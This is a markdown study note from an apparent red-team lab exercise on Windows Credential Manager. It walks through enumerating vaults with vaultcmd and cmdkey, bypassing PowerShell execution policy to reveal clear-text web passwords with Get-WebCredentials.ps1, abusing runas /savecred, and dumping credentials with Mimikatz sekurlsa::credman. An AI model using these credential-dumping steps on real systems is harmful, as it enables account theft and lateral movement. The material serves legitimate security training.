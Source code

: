Credential Manager is a Windows feature that stores logon-sensitive information for websites, applications, and networks. It contains login credentials such as usernames, passwords, and internet addresses. There are four credential categories:

- Web credentials contain authentication details stored in Internet browsers or other applications.
- Windows credentials contain Windows authentication details, such as NTLM or Kerberos.
- Generic credentials contain basic authentication details, such as clear-text usernames and passwords.
- Certificate-based credentials: These are authentication details based on certificates.

Note that authentication details are stored on the user's folder and are not shared among Windows user accounts. However, they are cached in memory.

## Accessing Credential Manager
We can access the Windows Credential Manager through GUI (Control Panel -> User Accounts -> Credential Manager) or the command prompt. In this task, the focus will be more on the command prompt scenario where the GUI is not available.
	![](Pasted%20image%2020241124002432.png)
We will be using the Microsoft Credentials Manager `vaultcmd` utility. Let's start to enumerate if there are any stored credentials. First, we list the current windows vaults available in the Windows target.

Listing the Available Credentials from the Credentials Manager
```markup
C:\Users\Administrator>vaultcmd /list
Currently loaded vaults:
        Vault: Web Credentials
        Vault Guid:4BF4C442-9B8A-41A0-B380-DD4A704DDB28
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

        Vault: Windows Credentials
        Vault Guid:77BC582B-F0A6-4E15-4E80-61736B6F3B29
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault
```

By default, Windows has two vaults, one for Web and the other one for Windows machine credentials. The above output confirms that we have the two default vaults.

Let's check if there are any stored credentials in the Web Credentials vault by running the `vaultcmd` command with `/listproperties`.

Checking if there Are any Stored Credentials in the "Web Credentials."
```markup
C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"
Vault Properties: Web Credentials
Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
Number of credentials: 1
Current protection method: DPAPI
```

The output shows that we have one stored credential in the specified vault. Now let's try to list more information about the stored credential as follows,

Listing Credentials Details for "Web Credentials"
```markup
C:\Users\Administrator>VaultCmd /listcreds:"Web Credentials"
Credentials in vault: Web Credentials

Credential schema: Windows Web Password Credential
Resource: internal-app.thm.red
Identity: THMUser Saved By: MSEdge
Hidden: No
Roaming: Yes
```

## Credential Dumping
The VaultCmd is not able to show the password, but we can rely on other PowerShell Scripts such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1), which is already included in the attached VM.

Ensure to execute PowerShell with bypass policy to import it as a module as follows:

Getting Clean-text Password from Web Credentials
```markup
C:\Users\Administrator>powershell -ex bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
THMUser internal-app.thm.red Password! {[hidden, False], [applicationid, 00000000-0000-0000-0000-000000000000], [application, MSEdge]}
```

The output shows that we obtained the username and password for accessing the internal application.

## RunAs
An alternative method of taking advantage of stored credentials is by using RunAs. RunAs is a command-line built-in tool that allows running Windows applications or tools under different users' permissions. The RunAs tool has various command arguments that could be used in the Windows system. The `/savecred` argument allows you to save the credentials of the user in Windows Credentials Manager (under the Windows Credentials section). So, the next time we execute as the same user, runas will not ask for a password.

Let's apply it to the attached Windows machine. Another way to enumerate stored credentials is by using `cmdkey`, which is a tool to create, delete, and display stored Windows credentials. By providing the `/list` argument, we can show all stored credentials, or we can specify the credential to display more details `/list:computername`.

```
C:\Users\thm>cmdkey /list 
Currently stored credentials:
 Target: Domain:interactive=thm\thm-local
 Type: Domain Password 
 User: thm\thm-local
```

The output shows that we have a domain password stored as the `thm\thm-local` user. Note that stored credentials could be for other servers too. Now let's use runas to execute Windows applications as the `thm-local` user. 

Run CMD.exe As a User with the /savecred argument
```markup
C:\Users\thm>runas /savecred /user:THM.red\thm-local cmd.exe
Attempting to start cmd.exe as user "THM.red\thm-local" ...
```

A new cmd.exe pops up with a command prompt ready to use. Now run the whoami command to confirm that we are running under the desired user.

## Mimikatz
Mimikatz is a tool that can dump clear-text passwords stored in the Credential Manager from memory. The steps are similar to those shown in the previous section (Memory dump), but we can specify to show the credentials manager section only this time.

Dumping Memory for Credentials Manager
```markup
C:\Users\Administrator>c:\Tools\Mimikatz\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman
```

**Note:**
	The techniques discussed in this task also could be done through other tools such as Empire, Metasploit, etc..

## Example
- Listing the Available Credentials from the Credentials Manager
	![](Pasted%20image%2020241124013431.png)

- Checking if there Are any Stored Credentials in the "Web Credentials."
	![](Pasted%20image%2020241124013616.png)
- Listing Credentials Details for "Web Credentials" // '' Windows Credentials''
	![](Pasted%20image%2020241124013828.png)
- Getting Clean-text Password from Web Credentials
	![](Pasted%20image%2020241124014259.png)
- Dumping Memory for Credentials Manager using Mimikatz








- Run CMD.exe As a User with the /savecred argument	
  ![](Pasted%20image%2020241124015046.png)![](Pasted%20image%2020241124015200.png)